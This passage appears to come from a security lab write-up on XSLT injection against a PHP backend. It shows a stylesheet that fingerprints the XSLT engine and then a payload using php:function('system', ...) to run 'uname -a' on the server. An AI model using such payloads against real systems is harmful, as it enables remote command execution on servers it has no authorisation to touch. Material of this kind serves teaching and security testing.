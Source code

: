 ```xml
<?xml version="1.0"?>
<root>Hello, World!</root>
```



Save the following content as **test.xsl**:

**test.xsl:**

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:output method="html"/>
    <xsl:template match="/">
    <h2>XSLT Engine Info:</h2>
    <b>Version:</b><xsl:value-of select="system-property('xsl:version')" /><br/>
    <b>Vendor:</b><xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
    </xsl:template>
</xsl:stylesheet>
```

Notice the contents of the XSL file. It contains the **xsl** tags to pull the information about the XSLT engine used by the backend:

- xsl:version
- xsl:vendor
- xsl:vendor-URL



By now, we have understood that the backend is running PHP and using the **libxslt** processor. Also, the processor parses the user-supplied files without any sanitization, as far as we have used it.

Now we will try to execute PHP functions from the XSL file. This will only work if **registerPHPFunctions** is enabled for the XSLT processor, as shown in the following post: https://laurent.bientz.com/Blog/Entry/Item/using_php_functions_in_xsl-7.sls



**test.xsl:**

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<!-- We add the PHP's xmlns -->
    <xsl:template match="/">
        <html>
            <!-- We use the php suffix to call the functions -->
            <xsl:value-of select="php:function('system','uname -a')" />
            <!-- Output: 'Php Can Now Be Used In Xsl' -->
        </html>
    </xsl:template>
</xsl:stylesheet>
```

Notice that we have specified the **uname -a** command to be executed via the PHP **system** function.
